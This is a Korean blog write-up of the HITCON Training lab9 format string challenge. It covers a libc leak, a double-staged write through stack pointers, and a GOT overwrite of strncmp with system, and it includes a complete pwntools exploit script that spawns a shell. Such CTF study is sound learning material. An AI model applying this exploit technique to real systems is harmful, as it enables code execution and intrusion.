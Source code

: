 ```yaml
---
layout: post
title: "[HITCON Training] lab9"
comments : true
category : War Game
---
```


# 문제
***

playfmt 바이너리의 checksec 결과는 다음과 같다.
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

file 명령어 결과는 다음과 같다.
```
playfmt: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=157fb5ec4301a1a1bddebb3c0f79c17305c57693, not stripped
```

취약점이 존재하는 함수

```
int do_fmt()
{
  int result; // eax

  while ( 1 )
  {
    read(0, buf, 0xC8u);
    result = strncmp(buf, "quit", 4u);
    if ( !result )
      break;
    printf(buf);
  }
  return result;
}
```

printf(buf)에 format string bug가 존재한다. 하지만 buf가 stack이 아닌 bss 영역에 위치하고 있다. 따라서 lab7, lab8 처럼 내가 write하고 싶은 영역의 주소를 buf에 넣어도 해당 주소를 참조할 수 없다.

=> double staged format string attack을 이용해야 한다.
1. first stage

스택에 있는 포인터 (스택 내의 주소를 가리키는 포인터)를 이용해서 해당 주소에 내가 덮어쓰고자 하는 주소를 write한다. 

2. second stage 

first stage에서 write한 주소 (스택에 존재)를 참조해서 그 주소에 내가 원하는 값을 덮어쓴다.


## exploit 방법
1. do_fmt 함수를 호출하기 전에 setvbuf를 호출하는데 이 때 인자로 들어간 stdout의 주소가 스택에 존재한다. 이 값을 출력함으로써 libc의 base_addr을 leak할 수 있다. (stdout의 offset은 readelf -s libc를 통해서 찾을 수 있다. 또는 gdb에서 x/a &stdout을 통해서 나온 주소에서 libc_base를 빼면 된다.)

이를 통해 system 함수의 주소를 알 수 있다.

2. 스택에 있는 포인터를 이용해서 스택에 strncmp_got 주소, strncmp_got 주소 +2 값을 write한다. (system 함수의 주소가 0xf7로 시작하기 때문에 %hn을 통해 overwrite하려고 한다.)

3. 2번에서 스택에 write한 주소를 참조해서 strncmp_got 영역에 system의 주소를 overwrite한다. 

4. read 함수에서 buf에 "bin/sh\x00"을 넣어주면 shell을 얻을 수 있다. 

c.f) 이 문제는 esp 값을 잘 조절해줘서 printf를 호출할 때 마다 esp 값이 고정되어 있다. => 이거 원래 모든 바이너리에서 다 스택 정리를 이렇게 해주나? 

그리고 이 문제에서 buf(같은 영역에)에 계속 write를 해주기 때문에 이전에 보낸 문자열 보다 그 다음에 보낸 문자열이 더 짧으면 이전에 보낸 문자열까지 같이 printf한다. 그러면 %n이 이상한 곳을 참조해서 error가 발생하여 프로세스가 종료될 수도 있다.


# 풀이
***
```
#!/usr/bin/python

from pwn import *
import time

file_path="/home/sungyun/HITCON-Training/LAB/lab9/playfmt"

p=process(file_path)
libc=ELF("/lib/i386-linux-gnu/libc.so.6")

strcmp_got=0x804a020

p.recvuntil("=\n")
p.recvuntil("=\n")


pay="%8$x" # stdout leak
pay+="%"+str(strcmp_got-8)+"d"+"%6$n"
pay+="%c"*2+"%13$n"+"end"

p.send(pay)

IO_stdout=int(p.recv(8),16)
libc_base=IO_stdout-0x001b2d60
system=libc_base+libc.symbols['system']

time.sleep(20)
p.recvuntil("end")

system=hex(system)
system_high=int(system[2:6],16)
system_low=int(system[6:],16)

pay2="%08x"*8+"%"+str(system_low-64)+"d"+"%hn"+"%08x"*8+"%"+str(system_high-system_low-64)+"d"+"%hn"+"end"

p.send(pay2)

time.sleep(20)
p.recvuntil("end")

p.send("/bin/sh\x00")

p.interactive()
```


# 알게 된 것
***

1. 혁쓰 추측 : 로컬에서 format string bug를 exploit 할 때 해당 프로세스 (pwntools의 process로 실행시킨 것)를 gdb에 attach하고 디버깅 하는 경우 printf를 통해 매우 많은 양을 출력하면 이걸 읽어줘야 프로세스가 멈추지 않고 제대로 실행된다. 출력을 읽어주지 않으니까 출력을 계속 하다가 출력 버퍼가 꽉 차서 더 출력을 하지 못하고 대기하고 있는듯... 


근데 이상한게 gdb에 프로세스를 attach하지 않고 그냥 처음부터 gdb로 프로그램을 디버깅 할 때는 출력을 읽어주지 않아도 프로세스가 멈추지 않고 실행된다. 


=> pwntools의 process 함수가 만든 통신은 출력이 매우 큰 경우에는 출력 버퍼에 있는 것을 읽어들였는지 안 읽어들였는지를 신경 쓰는듯?


이걸 처리하기 위해서 payload 마지막에 "EEEEE" 같은 특정 문자열을 넣어준다. 그 다음 time.sleep(30)을 통해서 해당 문자열이 다 출력될 때 까지 기다린 뒤 recvuntil("EEEEE")를 이용해서 출력한 것을 다 받아준다. recvuntil이 계속 데이터를 축적시키고 있는 놈이라 터질 수도 있기 때문에 아래 코드를 이용하는게 더 좋을 것 같다. 

```
While 'E' not in p.recv(0x1000):
    pass
```


리모트의 경우는 send를 하고 나면 이것에 대해서 따로 신경을 쓰지 않기 때문에 이러한 문제가 발생하지 않는다. 


2. %n은 지금까지 출력한 문자열의 개수를 write하는 것이 아니라 %n이 들어간 printf 내에서 출력한 문자열의 총 개수를 write한다. 

```
printf(“%10c%n”, 1, &count);
printf(“%20c%n”, 1, &count2);
count1 = 10
count2 = 20 
```


3. double staged format string attack의 second stage에서 $플래그를 통해 parameter를 참조할 때 수정된 값을 참조하지 못한다. 즉, second stage에서 %10$n으로 내가 수정한 주소에 overwrite를 하려고 하면 수정한 주소를 참조하는 것이 아니라 수정되기 전에 해당 위치에 있던 값을 참조하여 overwrite를 하게 된다. 


$flag는 $flag로 지정한 포맷 스트링의 값을 미리 가져와 놓고 사용하기 때문에 수정한 값을 가져오지 못하고 수정하기 전의 값을 참조하게 된다.


근데 또 이상한게 제일 마지막에 1개 쓰는 것은 수정한 값을 참조한다. 즉, second stage에서 payload를 %d %s %d %10$n으로 하면 이 때는 수정한 값을 참조한단다...

c.f) send()는 문자열 마지막에 NULL을 추가하지 않는다. (sendline은 "\x0a"를 추가한다.) 


